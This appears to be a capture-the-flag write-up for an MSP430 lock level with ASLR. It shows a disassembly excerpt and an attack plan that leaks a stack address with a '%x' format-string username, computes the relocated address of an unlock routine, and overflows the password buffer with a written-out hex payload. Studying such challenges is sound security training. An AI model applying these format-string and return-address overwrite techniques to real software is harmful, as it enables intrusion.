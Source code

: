 	4722:  3152           add	#0x8, sp
	4724:  6c4d           mov.b	@r13, r12
	4726:  4c93           tst.b	r12
	4728:  ed23           jnz	$-0x24 <_aslr_main+0x282> // 0x4704
# Print '\n'
	472a:  0e43           clr	r14
	472c:  3d40 0a00      mov	#0xa, r13
	4730:  0e12           push	r14
	4732:  0d12           push	r13
	4734:  0e12           push	r14
	4736:  0012           push	pc
	4738:  0212           push	sr
	473a:  0f4e           mov	r14, r15
	473c:  8f10           swpb	r15
	473e:  024f           mov	r15, sr
	4740:  32d0 0080      bis	#0x8000, sr
	4744:  b012 1000      call	#0x10
	4748:  3241           pop	sr
	474a:  3152           add	#0x8, sp
474c:  0e41           mov	sp, r14
474e:  2e53           incd	r14
4750:  0e12           push	r14
4752:  3f41           pop	r15
4754:  3152           add	#0x8, sp
4756:  3a41           pop	r10
4758:  3b41           pop	r11
475a:  3041           ret

## Attack strategy
1. Leak aslr stack new address using printf, Username: %x%x%x%x
	Example result of the given username is:
		-> 00008ba800000000 8ba8
		The content of this address is:
		8ba0: 8e12 32d0 f000 3041 0b12 0a12 0912 0812   ..2...0A........45e6
		Disasembling this data point to:
			push	r11
			push	r10
			push	r9
			push	r8
		Which look exactly like the start of printf which originaly at 0x476a
		Inside printf it call to putchar and that why the printf address is above in the stack
		Using this address we can calculate the code base address and jump relative to it
2. overflow the stack using the password: Write the <INT> to the return address and then 0x7f for unlocking the door
		<INT> original address is 0x48ec so the new address is [0x48ec + (Leaked address - 0x476a)]
leaked = 0xafa4
hex(0x48ec + (leaked - 0x476a))
	0xb126
4141 4141 4141 4141 res 4141 7f00
4141 4141 4141 4141 26b1 4141 7f00
